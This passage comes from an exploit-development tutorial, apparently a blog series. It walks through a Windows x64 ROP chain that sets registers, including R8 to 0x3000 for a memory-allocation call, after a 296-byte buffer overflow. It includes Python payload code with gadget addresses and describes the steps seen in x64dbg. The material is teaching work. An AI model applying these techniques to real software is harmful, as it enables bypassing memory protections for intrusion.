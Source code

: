 That...in a nutshell...is how you store values into registers.  Phew!  Man that's a lot to explain, but glad we got it out of the way 😆  Moving on

Let's continue executing our rop gadgets with that newfound information.  Here, we are storing the value pointed to by RAX into RAX, which is our '1000' !!!

![image](https://github.com/user-attachments/assets/f6cd436a-28f8-441a-b0ee-c7406453063b)

You can also see the value here in the middle of x64dbg:

![image](https://github.com/user-attachments/assets/ffc6cf3b-1ce0-4a12-8f2c-f5defb92856c)

So, now RAX holds 1000 and EDX holds the value 2.  That's good, as we want the final value of RDX to be 1002.  Let's continue...

![image](https://github.com/user-attachments/assets/637e91eb-4774-4e06-9fc0-c663b7779b5a)

you can see, we used a ROP gadget that adds eax and edx together which gives us the value we want in RDX!  There you have it.  RCX and RDX are now completed!  Just two more to go.

By the way, since we will be reusing/recycling a lot of our registers as we move through gadgets, we will want to execute each rop chain for each register in a specific order.  I'll show you later.  The next two registers I'm not going to go into as much detail now that you know how we can chain rop gadgets together to set register values.  If you have questions feel free to reach out to me and I can explain further.  I don't want this post to get too lengthy as we have plenty more content to cover for the remain parts of this series.  😸

> **R8 Register**

For the `R8` register, we need to set its value to 0x3000 which equates to `flAllocationType = MEM_COMMIT | MEM_RESERVE`.  We can accomplish this through the use of the following gadgets, once again discovered using `ropper` / `ropgadget`:

```python
#R8 ROP gadgets (this works but RDX MUST be 0x3000)
payload += struct.pack("<Q", 0x140001f8c)  # pop rax, ret;
payload += struct.pack("<Q", 0x1400095AC)  # place 3000 on stack --> 0x00000001400095AC = 0x3000
payload += struct.pack("<Q", 0x140007678)  # mov eax, dword ptr [rax]; ret;
payload += struct.pack("<Q", 0x140006995)  # 0x0000000140006995: add edx, eax; mov eax, edx; ret; 
payload += struct.pack("<Q", 0x140001f8c)  # pop rax, ret;
payload += struct.pack("<Q", 0x1400095A0)  # place 3000 - 0xC on stack 
payload += struct.pack("<Q", 0x140002410)  # 0000000140002410
```

Go ahead and plug those gadgets into our python template and you'll see R8 set to 3000!

```python
import struct
import subprocess

# Offset to the return address
junk = 296  # junk  (296 bytes)

payload = b"\x41" * junk

#R8 ROP gadgets (this works but RDX MUST be 0x3000)

payload += struct.pack("<Q", 0x140001f8c)  # pop rax, ret;
payload += struct.pack("<Q", 0x1400095AC)  # place 3000 on stack --> 0x00000001400095AC = 0x3000
payload += struct.pack("<Q", 0x140007678)  # mov eax, dword ptr [rax]; ret;
payload += struct.pack("<Q", 0x140006995)  # 0x0000000140006995: add edx, eax; mov eax, edx; ret; 

payload += struct.pack("<Q", 0x140001f8c)  # pop rax, ret;
payload += struct.pack("<Q", 0x1400095A0)  # place 3000 - 0xC on stack 

payload += struct.pack("<Q", 0x140002410)  # 0000000140002410
######################################################

```